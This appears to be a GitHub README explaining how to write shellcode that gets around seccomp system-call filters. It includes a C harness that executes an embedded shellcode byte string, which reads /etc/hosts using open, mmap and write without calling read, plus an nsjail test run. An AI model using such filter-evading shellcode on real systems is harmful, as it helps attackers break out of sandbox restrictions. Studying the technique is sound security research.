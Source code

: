 # seccomp-bypass
seccomp is used by applications to restrict system calls it can make, thus sandboxing it. Its goal is to limit the application to only the facilities it needs to perform its job and nothing more.

The goal here is to bypass these seccomp restrictions when exploiting applications. So you need shellcode that will carry out its purpose while still adhering to the seccomp filter in place. So if the filter specifies a denial of `read` and `write`, then valid shellcode may use any system call but those.

# Premise
A typical exploit scenario is that you have a vulnerable application into which you can inject shell code. The code below is a contrived application that just executes the shell code we specify.* So no vulnerability is required, but it suffices to prove the point.

&gt;:cat read-with-mmap.c
```
#include <stdint.h>
#include <sys/mman.h>

char shellcode[] = "\x66\x41\xbb\x74\x73\x41\x53\x49\xbb\x2f\x65\x74\x63\x2f\x68"
                   "\x6f\x73\x41\x53\x48\x8d\x3c\x24\x48\x31\xf6\x04\x02\x0f\x05"
                   "\x48\x31\xff\x48\x31\xf6\x66\xbe\xff\xff\x48\x31\xd2\x80\xc2"
                   "\x01\x49\x89\xc0\x4d\x31\xc9\x4d\x31\xd2\x41\x80\xc2\x01\x48"
                   "\x31\xc0\xb0\x09\x0f\x05\x48\x31\xff\xfe\xc2\x48\x89\xc6\x48"
                   "\x31\xd2\x66\xba\xff\xff\x48\x31\xc0\xfe\xc0\x0f\x05\x48\x31"
                   "\xff\xb2\x03\x48\x31\xc0\xb0\x3c\x0f\x05";

int main(){
  mprotect((void *)((uint64_t)shellcode & ~4095), 4096, PROT_READ|PROT_EXEC);
  (*(void(*)()) shellcode)();
  return 0;
}
```
 *Compile it with: `$gcc -static read-with-mmap.c -o read-with-mmap`

# Examples
Below are examples of shellcode that performs the specified action in the case where the specified system calls are disallowed. The shellcode is derived by running `src/gen-shellcode.sh $file.s`.

## Read a file from the filesystem
### Syscalls used: `open`,`close`,`write`, `mmap`
This example is based on shellcode from `src/read-with-mmap.s` that reads a target's `/etc/hosts` file without using read(2). You can see the line `127.0.0.1	localhost` present in the output below.

To follow along, use [Google's nsjail](https://github.com/google/nsjail) to run programs with a specific seccomp policy. Try replacing `read` with any of `open`,`close`,`write`, or `mmap` in the DENY clause. Doing so should cause the command to fail because the shellcode in this example uses all four of those calls.
```
>:~/nsjail/nsjail -Mo --chroot / --seccomp_string 'POLICY a { DENY { read } } USE a DEFAULT ALLOW' -- $HOME/seccomp-bypass/read-with-mmap
[2017-05-12T16:48:04-0700] Mode: STANDALONE_ONCE
...
[2017-05-12T16:48:04-0700] Uid map: inside_uid:360840 outside_uid:360840
[2017-05-12T16:48:04-0700] Gid map: inside_gid:5000 outside_gid:5000
[2017-05-12T16:48:04-0700] Executing '/home/unixist/seccomp-bypass/read-with-mmap' for '[STANDALONE_MODE]'
127.0.0.1	localhost
>:
```

### Syscalls used: `open`, `sendfile`
coming soon
